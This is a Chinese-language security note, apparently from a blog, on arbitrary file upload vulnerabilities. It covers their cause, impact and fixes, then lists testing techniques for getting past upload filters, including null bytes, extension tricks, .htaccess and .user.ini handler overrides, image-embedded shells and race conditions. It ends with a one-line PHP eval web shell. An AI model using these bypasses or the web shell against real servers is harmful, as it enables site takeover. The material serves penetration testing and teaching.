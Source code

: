 ```yaml
---
author: YOUZAI
title: 任意文件上传
date: 2023/05/10
categories:
 - 常见漏洞
tags:
 - WEB安全
---
```


## 漏洞原理

web 应用开放了文件上传功能，并且对上传的文件没有进行足够的限制；另一方面，程序开发部署的时候，没有考虑到系统特性和过滤不严格；再者就是，攻击者通过 web 服务器解析漏洞绕过显示，导致可以上传任意文件。

## 漏洞危害

* 文件上传漏洞最直接的威胁就是上传任意文件，包括恶意脚本、可执行程序、如果是 Linux 系统且开启了 ssh 可以上传公钥至服务器替换，达到控制服务器的目的。
* 如果 web 服务器所保存上传文件的可写目录具有执行权限，那么就可以直接上传后门文件，导致网站沦陷。
* 如果攻击者同通过其他漏洞进行提权操作，拿到系统管理权限，那么直接导致服务器沦陷。
* 同服务器下的其他网站无一幸免，均会被攻击者控制。

## 修复建议

* 将文件上传目录直接设置为不可执行。
* 文件类型检查：强烈推荐白名单方式，结合 MIME Type、后缀检查等方式（即只允许允许的文件类型进行上传）。
* 使用随机数改写文件名和文件路径，使得用户不能轻易访问自己上传的文件。
* 对于图片的处理可以使用压缩函数或 resize 函数，处理图片的同时破坏其包含的 HTML 代码。
* 单独设置文件服务器的域名。

## 测试方法

* 如果是前端检查后缀名，将文件名修改成 *test.png*，上传后抓包修改成 **test.php**。
* 修改 *Content-Type* 为 **image/png** 等。
* 修改文件后缀名，使用大小写或者双写，如 *test.PHP*、**test.pphphp**。
* 上传 .htaccess 文件，文件内容`SetHandler application/x-httpd-php`，作用是当前目录以及子目录所有文件将会被当作 php 解析。
* 使用文件流特性，**test.php::$DATA**。
* 文件名后缀加上 ==%00==、**0x00**。
* 替换文件的头部信息，**<0x89>PNG** **<0x47>GIF** **<0xFF>JEPG**。
* 文件后缀名加空格或者点，test.php  **test.php.** **test.php..**。
* 使用图片马，需要配合文件包含漏洞，`copy test.png /b + test.php /a  test.jpg`。
* 使用条件竞争，利用服务端删除文件的时间差，一个线程上传文件，一个线程访问该文件。
* 使用`.user.ini`。

.user.ini：

```ini
# 绕过跨目录限制
open_basedir=:/
# 在php文件代码执行前用require包含进指定文件
auto_prepend_file=top.html
# 在php文件最后用require包含进指定文件
auto_append_file=down.html

# 利用条件
服务器脚本语言为PHP
服务器使用CGI／FastCGI模式
上传目录下要有可执行的php文件
```

user.php：

```php
<?php
	eval($_post["pass"])
?>
```